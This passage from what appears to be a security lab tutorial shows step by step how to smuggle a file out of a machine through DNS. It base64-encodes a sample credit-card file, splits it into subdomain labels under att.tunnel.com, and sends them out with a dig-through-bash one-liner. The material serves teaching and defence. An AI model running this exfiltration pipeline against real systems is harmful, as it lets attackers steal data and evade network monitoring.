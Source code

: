 ```
Encoding the Content of the credit.txt File

           
			
thm@victim2$ cat task9/credit.txt | base64
TmFtZTogVEhNLXVzZXIKQWRkcmVzczogMTIzNCBJbnRlcm5ldCwgVEhNCkNyZWRpdCBDYXJkOiAx
MjM0LTEyMzQtMTIzNC0xMjM0CkV4cGlyZTogMDUvMDUvMjAyMgpDb2RlOiAxMzM3Cg==

	    
```

Now that we have the Base64 representation, we need to split it into one or multiple DNS requests depending on the output's length (DNS limitations) and attach it as a subdomain name. Let's show both ways starting with splitting for multiple DNS requests.


```
Splitting the content into multiple DNS requests

           
			
thm@victim2:~$ cat task9/credit.txt | base64 | tr -d "\n"| fold -w18 | sed -r 's/.*/&.att.tunnel.com/' 
TmFtZTogVEhNLXVzZX.att.tunnel.com
IKQWRkcmVzczogMTIz.att.tunnel.com
NCBJbnRlcm5ldCwgVE.att.tunnel.com
hNCkNyZWRpdCBDYXJk.att.tunnel.com
OiAxMjM0LTEyMzQtMT.att.tunnel.com
IzNC0xMjM0CkV4cGly.att.tunnel.com
ZTogMDUvMDUvMjAyMg.att.tunnel.com
pDb2RlOiAxMzM3Cg==.att.tunnel.com
	    
```

In the previous command, we read the file's content and encoded it using Base64. Then, we cleaned the string by removing the new lines and gathered every 18 characters as a group. Finally, we appended the name server "att.tunnel.com" for every group. 

Let's check the other way where we send a single DNS request, which we will be using for our data exfiltration. This time, we split every 18 characters with a dot "." and add the name server similar to what we did in the previous command.

```Splitting the content into a single DNS request
thm@victim2:~$ cat task9/credit.txt |base64 | tr -d "\n" | fold -w18 | sed 's/.*/&./' | tr -d "\n" | sed s/$/att.tunnel.com/
TmFtZTogVEhNLXVzZX.IKQWRkcmVzczogMTIz.NCBJbnRlcm5ldCwgVE.hNCkNyZWRpdCBDYXJk.OiAxMjM0LTEyMzQtMT.IzNC0xMjM0CkV4cGly.ZTogMDUvMDUvMjAyMg.pDb2RlOiAxMzM3Cg==.att.tunnel.com
```

Next, from the victim2 machine, we send the base64 data as a subdomain name with considering the DNS limitation as follows:

```
Send the Encoded data via the dig command

           
			
thm@victim2:~$ cat task9/credit.txt |base64 | tr -d "\n" | fold -w18 | sed 's/.*/&./' | tr -d "\n" | sed s/$/att.tunnel.com/ | awk '{print "dig +short " $1}' | bash

	    
```
